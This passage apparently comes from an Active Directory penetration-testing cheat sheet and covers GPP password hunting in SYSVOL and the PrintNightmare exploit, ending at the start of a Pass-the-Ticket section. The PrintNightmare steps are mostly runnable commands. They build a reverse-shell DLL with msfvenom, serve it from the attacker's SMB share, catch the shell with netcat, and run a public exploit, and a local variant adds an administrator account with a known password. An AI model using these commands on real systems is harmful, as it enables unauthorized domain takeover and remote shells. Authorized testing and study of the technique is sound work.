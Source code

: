 **Note**: The "Invoke-GPPPassword.ps1" script searches within the DC's "SYSVOL" share for XML files with a specific name that contain "cpassword." Since the file name can be arbitrary, it would be preferable to locate all the XML files present and then search for the string "password" in their contents.

## PrintNightmare

**Requirements**:
- domain user account credentials, regardless of its privileges
- **DC unpatched or misconfigured**. Vulnerable versions:
	- Windows Server (2004, 2008, 2008 R2, 2012, 2012 R2, 2016, 2019, 20H2)
	- Windows (7, 8.1, RT 8.1, 10)

***With direct access to the machine***: a host is vulnerable **if and only if**, by running `reg query "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint"`, the following registry keys are set as follows:

```
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint
    RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    NoWarningNoElevationOnInstall    REG_DWORD    0x1
```

**NB**: a fully-patched DC, but with the registry keys set as seen above, is **newly vulnerable**.

**Steps**:
1. *checker* (*impacket*)
	- `rpcdump.py @<IP TARGET> | egrep 'MS-RPRN|MS-PAR'`
	```shell
	rpcdump.py @<IP TARGET> | egrep 'MS-RPRN|MS-PAR'
	
	Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
	Protocol: [MS-RPRN]: Print System Remote Protocol
	```
2. *reverse shell DLL*
	- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<INTERFACE> LPORT=53 -f dll -o rev.dll`
3. *SMB server* (*impacket*)
	- `python3 smbserver.py -smb2support "pwn" <DIR with rev.dll>`
4. listener netcat
	- `rlwrap nc -nvlp 53`
5. *exploit*
	- [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)
	- `python3 CVE-2021-1675.py <DOMAIN NAME>/'<USERNAME>:<PASSWORD>'@<IP TARGET> '\\<IP ATTACKER>\pwn\rev.dll'`

**Local PE Powershell** - [https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675):
- `powershell -ep bypass`
- `. .\CVE-2021-1675.ps1`
- `Invoke-Nightmare` (*add user `adm1n`/`P@ssw0rd` in the local admin group by default*)

## PassTheTicket

**Scenario**: attack that relies on Kerberos authentication. It is based on the reuse of Kerberos tickets (and associated session keys) in the memory of the LSASS process.
